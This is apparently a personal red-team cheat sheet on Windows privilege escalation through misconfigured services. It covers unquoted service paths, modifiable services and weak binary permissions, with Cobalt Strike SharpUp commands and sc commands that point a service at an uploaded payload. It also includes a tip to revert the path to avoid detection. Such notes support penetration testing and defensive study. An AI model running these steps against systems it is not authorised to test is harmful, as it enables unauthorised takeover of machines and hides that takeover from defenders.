 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_Privesc
---
```



<span style="font-size: 35px; color:red"><b>Windows Privilege Escalation</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Windows Services</b></span>
Enumerate services:
```shell
sc query
```
OR
```powershell
Get-Service | fl
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Unquoted Service Paths</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```
List services and their paths (looking for <span style="color: red">Unquoted Service Paths</span>:
```shell
wmic service get name, pathname
```
i.e. For an unquoted service path like C:\Program Files\Vulnerable Services\Service.exe, the OS will look for:
- C:\Program.exe
- C:\Program Files\Vulnerable.exe
- C:\Program Files\Vulnerable Services\Service.exe
&nbsp;
Check permissions on Folders and Files:
```powershell
Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```
and check for <span style="color: red">BUILTIN\Users Allow  CreateFiles</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Modifiable Services</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```
After that, use [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) powershell script to enumerate the service further:
```powershell
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name <VulnService> | select -expand Access
```
Check ServiceRights and IdentityReference to see who can do what.
If you have the rights, for instance, you can change the default binary path to an arbitrary file.
Check the current Binary Path:
```powershell
run sc qc <VulnService>
```
Then upload the binary (remember it must be a <span style="color:red">.svc.exe</span>) and reconfigure the path:
```powershell
run sc config <VulnService> binPath= <C:\Temp\tcp-local_x64.svc.exe>
```
Recheck the path and restart the service:
```powershel
run sc qc <VulnService>
run sc stop VulnService
run sc start VulnService
```
Re-change the binary path at the end to avoid detection.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Weak Service Binary Permissions</b></span>
When the vulnerability is on the service binary itself:
```powershel
powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service.exe" | fl
```
If you get something like <span style="color:red">Access: BUILTIN\Users Allow Modify</span>, then the service is vulnerable and you can overwrite it with your payload.
<span style="color:red">You might need to stop the service first before replacing the .exe</span>.
